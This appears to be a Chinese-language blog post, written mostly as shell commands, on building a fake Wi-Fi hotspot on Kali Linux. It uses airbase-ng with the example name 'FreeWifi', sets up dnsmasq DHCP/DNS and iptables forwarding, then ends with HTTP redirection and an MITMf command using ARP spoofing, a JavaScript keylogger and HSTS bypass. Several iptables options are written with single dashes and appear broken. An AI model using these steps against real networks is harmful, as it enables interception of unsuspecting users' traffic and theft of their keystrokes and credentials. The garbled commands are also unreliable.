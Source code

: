 ```yaml
---
title: 在kali中创建伪装AP热点
date: 2015-10-19 04:53 
tags: [git, 咖啡]
categories: [产品]
---
```


## 1.必须工具
- Aircrack-ng
- Dnsmasq
- Wireless Adapter

**Aircrack-ng**：Aircrack-ng是一个与802.11标准的无线网络分析有关的安全软件，主要功能有：网络侦测，数据包嗅探，WEP和WPA/WPA2-PSK破解。Aircrack-ng可以工作在任何支持监听模式的无线网卡上并嗅探802.11a，802.11b，802.11g的数据。

**Dnsmasq**：DNSmasq是一个小巧且方便地用于配置DNS和DHCP的工具，适用于小型网络，它提供了DNS功能和可选择的DHCP功能。

**Wireless Adapter**：无线网卡，伪装AP热点无线一个无线网卡，建议使用外置的无线网卡。

## 2.查看无线网卡并启动监听
使用`airmon-ng`命令查看当前可用的无线网卡信息，如wlan0
使用`airmon-ng start [网卡名称]`启动无线网卡为监听模式，得到wlan0mon

## 3.创建无线AP热点
使用命令`airbase-ng -e [AP_NAME] -c [channel] wlan0mon`创建无线AP热点，如：
```shell
airbase-ng -e FreeWifi -c 6 wlan0mon
```
此时可以扫描到创建的无线热点，但是不能连接去。

## 4.创建虚拟网卡及网关
新打开一个终端，执行以下命令创建虚拟网卡及其路由配置
```shell
ifconfig at0 10.0.0.1/24 up
ifconfig at0 mtu 1400
route add -net 10.0.0.0 netmask 255.255.255.0 gw 10.0.0.1
```

## 5.编辑Dnsmasq配置并启动
编辑 **dnsmasq** 配置文件`vi /etc/dnsmasq.conf`
```shell
interface=at0
dhcp-range=10.0.0.10,10.0.0.250,12h
dhcp-option=3,10.0.0.1
dhcp-option=6,10.0.0.1
server=8.8.8.8
log-dhcp
log-queries
```
启动 **dnsmasq** 服务
```
dnsmasq -C /etc/dnsmasq.conf -d
```

## 6.开启IP转发并设置IPTables转发规则
```shell
iptables -flush
echo 1 > /proc/sys/net/ipv4/ip_forward

iptables -P FORWARD ACCEPT
iptables -append FORWARD -in-interface at0 ACCEPT

-- iptables -table -nat -append POSTROUTING -out-interface eth0 -j MASQUERADE
iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

## 后续可以做什么？
```
iptables -t nat -A PREROUTING -p tcp -destination 80 -j REDIRECT -to-port 10000

# MITMF
mitmf -i at0 --spoof --arp -gateway 10.0.0.1 --jskeylogger --hsts
```
